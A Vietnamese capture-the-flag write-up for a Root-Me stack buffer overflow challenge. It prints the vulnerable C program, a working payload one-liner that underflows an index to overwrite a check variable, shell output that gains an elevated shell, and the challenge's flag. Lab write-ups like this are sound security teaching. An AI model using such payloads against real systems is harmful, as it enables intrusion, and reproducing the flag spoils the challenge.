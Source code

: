 
# Co-che-hoat-dong-cua-ma-doc - challenge 4 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 3: ssh -p 2222 app-systeme-ch16@challenge02.root-me.org
```

![image](https://user-images.githubusercontent.com/64201705/120091248-8db6ea80-c133-11eb-993a-fd84265441be.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:
![image](https://user-images.githubusercontent.com/64201705/120091265-b6d77b00-c133-11eb-8a3f-cb4150eba2a3.png)

```C
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

void shell(void);

int main()
{

  char buffer[64];
  int check;
  int i = 0;
  int count = 0;

  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}

void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```
Đối với challenge này, ta không thể ghi đè biến check bằng giá trị `0xbffffabc` theo cách đơn giản mà ta vẫn thường làm vì các kí tự nhập vào đều được chương trình xử lí.
Nhưng ở đây, ta thấy khi ta nhập các kí tự khác với `0x08` thì biến count sẽ tăng lên, còn nếu nhập vào kí tự `0x08` thì biến count sẽ bị giảm xuống.
Mặt khác ta nhìn vào phần khai báo và case default của switch case, ta thấy `buffer[count] = i`, mà i được lại được khai báo là kiểu integer tức i sẽ được cấp 4 bytes trong bộ nhớ. Vì thế ta sẽ nghĩ tới việc nếu biến count mang giá trị là `-4` thì liệu `buffer[count]` có trỏ tới biến check ở trong stack hay không? Hãy cùng thử và xem kết quả!
- Ta sẽ giảm biến count xuống -4 và in giá trị `0xbffffabc` ra để ghi đè lên biến check bằng đoạn payload: `cat <(python -c 'print "\x08"*4+"\xbc\xfa\xff\xbf"') - | ./ch16`
![image](https://user-images.githubusercontent.com/64201705/120091403-08ccd080-c135-11eb-9643-8260fb88dd74.png)
```bash
app-systeme-ch16@challenge02:~$ cat <(python -c 'print "\x08"*4+"\xbc\xfa\xff\xbf"') - | ./ch16
Enter your name: LeDung
/bin/bash: line 2: LeDung: command not found
ls
Makefile  ch16  ch16.c
id
uid=1216(app-systeme-ch16-cracked) gid=1116(app-systeme-ch16) groups=1116(app-systeme-ch16),100(users)
cat .passwd
cat: '.p'$'\303''asswd': No such file or directory
cat .passwd
Sm4shM3ify0uC4n
```
Thành công!
Vậy flag là: 
## Sm4shM3ify0uC4n




